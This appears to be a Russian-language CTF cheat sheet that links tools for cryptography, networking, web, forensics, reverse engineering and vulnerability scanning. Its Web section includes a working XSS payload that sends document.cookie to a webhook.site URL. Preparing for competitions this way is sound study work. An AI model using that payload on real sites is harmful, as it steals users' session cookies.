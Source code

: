 ###### РЕКОМЕНДУЮ СТАВИТЬ КАЛИ ЛИНУКС И ЗАРАНЕЕ СТАВИТЬ ВСЁ ИЗ ВАШЕЙ КАТЕГОРИИ

# Cryptography
- [dcode (france)](https://www.dcode.fr/rot-13-cipher)
  - расшифровка всего
  - вбиваете в поиск шифр и оно откроет решалку данного шифра
  - умеет решать даже судоку)
- [crack station](https://crackstation.net/)
  - расшифровывает некоторые хеши
  - богатая база хешей(радужная таблица) 15 gb
- [hashes.com](https://hashes.com/en/decrypt/hash)
  - расшифровывает некоторые хеши
- [Hash identifier](https://www.kali.org/tools/hash-identifier/)
  - Проверка какой это хеш
  - [Online 1](https://www.tunnelsup.com/hash-analyzer/)
  - [Online 2](https://hashes.com/en/tools/hash_identifier)

# Network
- [wireshark](https://www.wireshark.org/#download)
  - в основном для загрузки pcap файлов содержащих кучу сетевых пакетов
  - внимательно читайте задание и ищите то что говорят
- [fiddler](https://www.telerik.com/download/fiddler-everywhere) 
  - подмена ответов запросов
- [burp suite](https://portswigger.net/burp/communitydownload)
  - подмена запросов и их отправка
  - и много других неизученых мною фич

# Web
#### XSS:
- Использовать webhook.site для возвратного получения данных(callback)
- <img src=x onerror=this.src='https://webhook.site/fad40d81-20a3-4ce9-9399-0c9a9a6e6a24/'+document.cookie;>
- В примере выше я отправляю на вебхук куки в качестве открытия страницы с названием куки

#### Extensions:
- шпоры по sql и тд
  - Firefox: https://addons.mozilla.org/en/firefox/addon/hacktools/ 
  - Chrome: https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi
  - ![img.png](img.png)

#### VPN:
- [windscribe](https://windscribe.com)
  - делаете аккаунт, затем в настройках аккаунта вводиться промокод "ПИЗДЕЦ" дает 30 гб
- [cloudflare warp](https://1.1.1.1/)
  - впн от cloudflare 

# Forensics
- Дампы памяти (.mem файлы) 
  - HxD Hex Editor 
    - редактор сырых данных
  - Volatility 
    - инструмент поиска и анализа инфы (ТОП) 
  - Binwalk 
    - поиск исполняемых и других файлов в картинке
  - Foremost 
    - поиск файлов из дампа
- Strings 
  - иногда полезно для получения строк из исполняемого файла
- Восстановление удаленных файлов
- Контейнеры 
  - Veracrypt, Truecrypt

# Assembler


- [Ida Decompiler](https://out7.hex-rays.com/files/idafree77_windows.exe)
  - визуализация кода в виде графа
- [Assembler Reference](http://ref.x86asm.net/coder32.html#modrm_byte_16)
  - это сайт с инструкциями в ассемблере и их значениями в шестнадцатеричной системе счисления.
- [GDB Documentation](https://www.sourceware.org/gdb/documentation/)
  - мануал по gdb
- [Radare2](https://github.com/radareorg/radare2)
  - красивый gdb
- [BenEater](https://www.youtube.com/c/BenEater?app=desktop)
  - ютубер, объясняет ассемблер


# Vulnerability search
- [snyk-cli](https://docs.snyk.io/snyk-cli)
  - имбище(must have)
  - Ищет уязвимости в определенной папке.
  - Для тех заданий, где предоставлены исходники.
  - Даже если цель задания в другом, сканируйте код всё равно, может быть обходной путь.
- [sqlmap](https://sqlmap.org/)
  - Взлом sql и поиск уязвимостей в sql базе
- [thc-hydra](https://www.kali.org/tools/hydra/)
  - Bruteforce универсальный - thc-hydra
  - [Github](https://github.com/vanhauser-thc/thc-hydra)
- [Math.random() JS](https://www.youtube.com/watch?v=-h_rj2-HP2E)
  - взлом псевдо рандома в js
- [wappalayzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
  - получения технологий которые использует сайт
  <details>
    <summary>Картинка</summary>
    <img src="img_1.png">
  </details>
- [Insecure Deserialization Attack](https://www.youtube.com/watch?v=jwzeJU_62IQ)
  - атака на десиариазацию(восстановление обьектов из файла)
- [HTTP pollution](https://www.youtube.com/watch?v=QVZBl8yxVX0)
  - подмена параметров
- [XSS guide](https://www.youtube.com/watch?v=EoaDgUgS6QA)
  - полный разбор XXS(инъекция скрипта вместо текста)
- [Cross-Site Request Forgery](https://www.youtube.com/watch?v=eWEgUcHPle0)
  - получение куки через подмен получателя куки

# Uncategorized(НАДО СОРТИТЬ!!!):
- [awesome-ctf](https://project-awesome.org/apsdehal/awesome-ctf#solve)
  - multi tools
- [ctf-tools](https://github.com/zardus/ctf-tools)
  - multi tools
- [ctf-checklist](https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/)
- ![img_2.png](img_2.png)
  ###### CTFCheatsheet.xmind